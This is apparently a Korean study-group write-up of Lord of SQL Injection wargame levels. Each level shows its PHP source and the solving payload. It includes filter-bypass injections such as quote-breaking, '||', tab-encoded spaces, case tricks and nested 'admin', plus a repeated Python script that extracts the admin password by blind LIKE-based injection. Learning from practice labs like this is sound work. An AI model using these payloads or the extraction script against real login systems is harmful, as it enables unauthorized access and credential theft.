

##### 해당 게시글은 빡공팟 4기(with TeamH4C)와 관련되어 있습니다
-----
# > Lord of Sql injection: orc

## 삽질

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

pw를 맞추어야 하는 것을 보니 이전 문제처럼 단순히 1번의 조회쿼리로 푸는 문제가 아님을 알 수 있다. 총 2번의 쿼리 결과를 보여주는데 1번째 쿼리문 결과를 이용하여 2번째 쿼리문의 결과가 참이 되도록 해야겠다.

일반적으로 알고 있었던 와일드카드인 `_` 기호와 `%`를 이용하려고 했다. 


그러나 아무리 시도하여도 맞는 짝이 없었고 `like`가 아닌 `=` 기호를 사용했다는 실수를 발견했다.

<br>

## writeup

비밀번호를 유추하는 과정을 파이썬을 이용하여 스크립트를 작성하였다.

```python
import requests
cookie = {'PHPSESSID':''}
flag = 1

def my_request(upw):
	url = f'https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw={upw}'
	response = requests.get(url=url,cookies=cookie)
	return response

def find_pw(res):
	for i in range(38,127):
		upw = f'1\' or pw like \'{res}'+chr(i)+'%\' --+'
		response = my_request(upw)
		if i == 38:
			continue
		if "Hello admin" in response.text:
			print("I got: ",chr(i))
			return chr(i)

	print("I think it was completed")
	flag = 0
	return 0

def solve():
	res = ""
	while flag:
		res += find_pw(res)


if __name__ == "__main__":
	solve()	
```

이전에 DVWA를 풀면서 익혔던 세션값을 포함한 get 전달, 써니나타스를 풀면서 브루트포싱을 위한 기초적인 틀을 응용했다.


대문자와 소문자를 구별하지 않는 db 설정이였는지 실제 답을 입력할 때에는 A를 소문자 a로 수정하여 제출하니 성공했다.


<br><br><br>

-----

# LOS: wolfman

## 삽질

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

이번 문제에서는 공백의 존재가 없어야 하는 문제이다.

<br>


## writeup

공백 입력이 제한되었기에 tab 기호를 사용해보자.

tab 기호는 %09를 통해 나타낼 수 있다.

```
pw='%09or%09id='admin
```


<br><br><br>

-----

# LOS: darkelf

## 삽질

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```

이번에는 `or` 그리고 `and` 논리연산자 사용이 불가능한 문제이다.

<br>

## writeup

"또는" 을 의미하는 연산자는 `or` 이외에도 `||` 기호도 있다.

```
pw=' || id='admin
```


<br><br><br>

-----


# LOS: orge

## 삽질

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```


<br>

## writeup

앞선 두 문제 풀이의 개념을 결합하면 되는 문제이다.


```python
import requests
cookie = {'PHPSESSID':''}
flag = 1

def my_request(upw):
	url = f'https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php?pw={upw}'
	response = requests.get(url=url,cookies=cookie)
	return response

def find_pw(res):
	for i in range(38,127):
		upw = f'1\' || pw like \'{res}'+chr(i)+'%\' --+'
		response = my_request(upw)
		if i == 38:
			continue
		if "Hello admin" in response.text:
			print("I got: ",chr(i))
			return chr(i)

	print("I think it was completed")
	flag = 0
	return 0

def solve():
	res = ""
	while flag:
		res += find_pw(res)


if __name__ == "__main__":
	solve()	

```


`or`이 허용되지 않기에 `||` 기호를 사용하였고, 결과도 소문자로 대입해주었다.




<br><br><br>

-----

# LOS: troll

## 삽질

```php
<?php  
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match("/admin/", $_GET[id])) exit("HeHe");
  $query = "select id from prob_troll where id='{$_GET[id]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id'] == 'admin') solve("troll");
  highlight_file(__FILE__);
?>
```


쿼리문의 결과에서 id=admin을 요구하는데 admin 자체가 필터링되어 있다. 하지만 문자열을 합치는 방법은 너무나 많다.

라고 생각해서 `ad+min`을 넣었더니 `ad min`으로 인식한다... concat함수도 문자를 뜻하기 위해 `'` 기호를 써야하는데 해당 기호도 필터링되어 있다...

<br>

## writeup

근데 생각해보면 대소문자에 대한 필터링이 없기에 그냥 대문자로 admin을 만들면 된다.

```
id=ADMIN
```

오우오우


<br><br><br>

-----


# LOS: vampire

## 삽질

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  $_GET[id] = strtolower($_GET[id]);
  $_GET[id] = str_replace("admin","",$_GET[id]); 
  $query = "select id from prob_vampire where id='{$_GET[id]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("vampire"); 
  highlight_file(__FILE__); 
?>
```

이번엔 대문자를 넣어도 소문자로 변경되게끔 만들어버렸다. 하지만 이전처럼 admin 필터링이 `preg_match` 함수가 아닌 `str_replace`함수이기에 우회하기 편해졌다.

<br>

## writeup


```
id=adadminmin
```

중간의 admin이 사라지면서 admin이 완성된다.


<br><br><br>

-----


# LOS: skeleton

## 삽질

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```

이번에는 `1=0` 을 통해서 항상 거짓이 되도록 만들었다. 

<br>


## writeup

다시 기본으로 돌아가보면 사용자의 입력을 통해 주석을 삽입할 수 있다. 때문에 항상 거짓이 되는 1=0 부분을 주석처리 해버리면 되겠다.

```
pw=1' or id='admin' --+
```

오히려 필터링이 없어져서 편안해졌다.


<br><br><br>

-----


# LOS: golem

## 삽질

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```

`or` 과 `and`, `substr` 함수가 필터링 되어있다. 하지만 이전 문제부터 `||` 기호를 활용해왔었는데 아직 막히지 않았다.

<br>

## writeup

```python
import requests
cookie = {'PHPSESSID':''}
flag = 1

def my_request(upw):
	url = f'https://los.rubiya.kr/chall/golem_4b5202cfedd8160e73124b5234235ef5.php?pw={upw}'
	response = requests.get(url=url,cookies=cookie)
	return response

def find_pw(res):
	for i in range(38,127):
		upw = f'1\' || pw like \'{res}'+chr(i)+'%\' --+'
		response = my_request(upw)
		if i == 38:
			continue
		if "Hello admin" in response.text:
			print("I got: ",chr(i))
			return chr(i)

	print("I think it was completed")
	flag = 0
	return 0

def solve():
	res = ""
	while flag:
		res += find_pw(res)


if __name__ == "__main__":
	solve()	
```


역시나 소문자로 넣어주었다.


